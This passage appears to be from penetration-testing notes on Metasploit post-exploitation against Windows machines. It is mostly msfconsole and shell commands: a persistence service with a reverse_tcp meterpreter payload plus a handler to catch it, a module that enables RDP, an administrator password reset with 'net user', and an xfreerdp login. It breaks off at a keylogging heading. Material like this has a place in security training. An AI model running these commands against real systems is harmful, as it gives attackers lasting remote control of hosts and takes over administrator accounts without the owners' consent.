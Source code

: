 ***NOW THIS WILL NOT ELEVATE OUR PRIVILAGES BUT WILL GIVE A NEW METERPRETER SESSION THAT WILL HAVE THE UAC FLAG TURNED OFF AND AFTER THAT YOU CAN USE THE*** **`getsystem`** ***COMMAND TO ELIVATE YOUR PRIVILEGES***

#### Establishing Persistence on Windows:

```msfconsole
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
show options
set SESSION <session-id>
run
```

> This will startup a service that we can always connect to via a handler after the current session is terminated.

```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
run
```

> Now if you run this you'll immediately get a meterpreter sessions.

***ALWAYS KEEP IN MIND THE*** **`LHOST`** ***AND*** **`LPORT`** ***OPTIONS***

#### Enabling RDP

```msfconsole
use post/windows/manage/enable_rdp
show options
set RHOSTS <ip-address>
set SESSION <session-id>
run
```

> This will enable the `RDP` service on port `3389`. 

***NOW AFTER THIS WE WOULD HAVE TO CHANGE THE PASSWORD IN ***

```msfconsole
shell
net users
net user administrator <password-any>
```

> This will change the password of the `administrator` user. This can only be done via a privileged access.

```shell
xfreerdp /u:administrator /p:<password-any> /v:<ip-address>
```

> This command can be used from the console of your linux machine in order to interact with the `RCD` of the target machine using the new creds.

#### Windows Keylogging:
